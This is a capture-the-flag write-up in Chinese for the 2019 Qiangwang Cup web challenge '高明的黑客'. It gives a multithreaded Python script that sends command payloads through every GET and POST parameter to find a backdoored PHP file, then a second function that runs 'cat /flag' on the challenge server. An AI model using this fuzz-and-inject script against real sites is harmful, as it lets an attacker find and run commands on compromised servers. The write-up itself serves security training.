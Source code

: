 # \[强网杯 2019]高明的黑客

## \[强网杯 2019]高明的黑客

## 考点

* 爆破脚本书写
* Python正则表达式
* Python多线程

## wp

www.tar.gz下载源码，使用notepad++在src目录中查找system，还是有很多

![](<../.gitbook/assets/image (29) (1) (1) (1).png>)

只能用脚本多线程跑

```php
import os
import re
import requests
import threading

lock = threading.Lock()
path = 'src/'
files = os.listdir(path)
url = 'http://localhost:8888/intru/src/'

def send_req(file):
    f = open('src/'+file)
    ff = f.read()
    lock.acquire()
    f.close()
    lock.release()
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = url + file + '?' + ('=echo "peri0d"&'.join(get_res)).replace("$_GET['",'').replace("']",'') + '=echo "peri0d"'
    data = {}
    for i in post_res:
        data[i[8:-2]] = 'echo "peri0d"'
    response = requests.post(url_test, data=data)
    print(response.text)
    # print(url_test)
    # print(data)
    if "peri0d" in response.text:
        print(file)
        return file
    

#send_req('xk0SzyKwfzw.php')
l = []
for i in files:
    t = threading.Thread(target=send_req, args=(i,))
    t.start()
    l.append(t)
for i in l:
    i.join()
```

得到结果xk0SzyKwfzw.php

![](<../.gitbook/assets/image (16) (1).png>)

再写一个`get_flag`函数，复制粘贴前面的代码，改一下地址和shell

```python
def get_flag(file):
    f = open('src/'+file)
    ff = f.read()
    f.close()
    
    shell = 'cat /flag'
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = 'http://70b853eb-51ee-40c5-a69c-ab1ec94682a8.node4.buuoj.cn:81/' + file + '?' + (f'={shell}&'.join(get_res)).replace("$_GET['",'').replace("']",'') + f'={shell}'
    data = {}
    for i in post_res:
        data[i[8:-2]] = shell
    response = requests.post(url_test, data=data)
    # print(url_test)
    # print(data)
    if "flag" in response.text:
        print(response.text)
        return file
get_flag('xk0SzyKwfzw.php')
```

![](<../.gitbook/assets/image (33) (1) (1) (1) (1).png>)
